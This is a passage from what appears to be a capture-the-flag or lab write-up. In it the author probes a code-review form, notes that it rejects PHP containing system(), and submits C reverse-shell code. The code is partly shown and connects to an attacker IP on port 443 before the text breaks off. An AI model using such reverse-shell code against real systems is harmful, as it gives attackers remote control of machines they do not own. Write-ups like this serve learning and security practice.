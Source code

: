 submit.php didn't provide any interesting information, but codereview.php showed a text area where I could input code for review. 

![](/images/2015-01-04/01.png)

I initially started out by trying PHP code to execute reverse shells, but nothing appeared to work. If the submitted entry contained the a call to system(), it returned an error stating that code containing the system() function wouldn't be reviewed. It occurred to me that perhaps it was C code that was being reviewed, and not PHP. I tried the following C code which would give me a reverse shell on port 443: 

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr("192.168.180.129");
    sa.sin_port = htons(443);

    s = socket(AF_INET, SOCK_STREAM, 0); 
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
```